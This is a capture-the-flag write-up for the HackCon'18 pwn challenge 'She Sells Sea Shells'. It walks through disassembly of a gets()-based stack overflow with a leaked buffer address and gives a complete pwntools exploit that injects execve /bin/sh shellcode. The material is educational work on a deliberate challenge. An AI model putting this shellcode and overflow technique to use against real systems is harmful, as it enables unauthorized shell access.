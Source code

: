 ```yaml
---
layout: writeup
ctf: HackCon'18
challenge: "She Sells Sea Shells"
author: Ring0p
date:   2018-08-17
categories: [pwn]
tags: [ ctf, challenge, programming, write-up ]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [pwn2](http://ringr0p.github.io/binary/hackcon2018-bof)
  - Difficulty: Easy

This challenge was the fourth challenge (90 pts) of the pwn category in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary:

```
Welcome.

I have a small gift for you (no strings attached) 0x7ffcfd9a7b60

```
The first question is: what is the "small gift" that the program is giving us?
Let's open it in radare and try to figure it out:

```code
|	        0x00400676      55             push rbp                                                                                                      
|           0x00400677      4889e5         mov rbp, rsp                                                                                                          |           0x0040067a      4883ec50       sub rsp, 0x50               ; 'P'                                                                                     
|           0x0040067e      897dbc         mov dword [local_44h], edi    ; arg1                                                                                  |           0x00400681      488975b0       mov qword [local_50h], rsi    ; arg2                                                                                 
|           0x00400685      bf88074000     mov edi, str.Welcome.       ; 0x400788 ; "Welcome.\n"                                                                 |           0x0040068a      e891feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)                                                           
|           0x0040068f      488d45c0       lea rax, [local_40h]                                                                                                  |           0x00400693      4889c6         mov rsi, rax
|           0x00400696      bf98074000     mov edi, str.I_have_a_small_gift_for_you__no_strings_attached___p
|           0x0040069b      b800000000     mov eax, 0                                                                                                            
|           0x004006a0      e88bfeffff     call sym.imp.printf         ;[2] ; int printf(const char *format)                                                     
|           0x004006a5      488b05a40920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        
|           0x004006ac      4889c7         mov rdi, rax                                                                                                          
|           0x004006af      e8acfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006b4      488b05a50920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00
|           0x004006bb      4889c7         mov rdi, rax                                                                                                          |           0x004006be      e89dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           
|           0x004006c3      488d45c0       lea rax, [local_40h]                                                                                                  |           0x004006c7      4889c7         mov rdi, rax                                                                                              
|           0x004006ca      b800000000     mov eax, 0                                                                                                            |           0x004006cf      e87cfeffff     call sym.imp.gets           ;[4] ; char *gets(char *s)
|           0x004006d4      488b05750920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        |           0x004006db      4889c7         mov rdi, rax
|           0x004006de      e87dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006e3      488b05760920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00                                                             |           0x004006ea      4889c7         mov rdi, rax
|           0x004006ed      e86efeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006f2      b800000000     mov eax, 0
|           0x004006f7      c9             leave                                                                                                                 \           0x004006f8   *  c3             ret                                                                                                    

```

Ok, we can see that at 0x0040068f the address of the buffer (local_40h) is placed in rax. Notice that it uses the
"LEA" instruction instead of MOV, because it wants to "Load Effective Address" of the buffer in the register.
Than it moves rax in rsi as second parameter of the printf function, as the x64 calling convetion wants (first parameter in rdi , then rsi, rdx, rcx and so on).

After that, it requests, as the other challenges, an input that is managed using the gets () function, without the lenght control.

Then we can control the return address because there are no canaries on the stack. Moreover the NX bit is 0, then the stack is executable.
It means that if we place a shellcode in the stack and redirect the program to that address (that "casually" is given by the program), the code will be executed.

Now we have everything to write the exploit, and this time I used PwnTools to help me in the communication with the remote server:

```python
from pwn import *

'''
Shellcode:

xor rdi, rdi
xor rsi, rsi
xor rdx, rdx
xor rax, rax
push rax
mov rbx, 68732f2f6e69622fH
push rbx
mov rdi, rsp
mov al, 59
syscall

'''
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

log.info ("Shellcode len %d bytes", len(shellcode))

rem = False

if rem:
    p = remote ("139.59.30.165", 8900)
else:
    p = process ("./bof")

a = p.recv(80)
addr = int(a[60:74], 16)
payload = shellcode + (72 - len(shellcode))*'a' + p64(addr)
p.sendline(payload)
p.interactive()
#print payload

```

And it works ;) !

![placeholder](https://ringr0p.github.io/images/hackcon2018-4-flag.png)
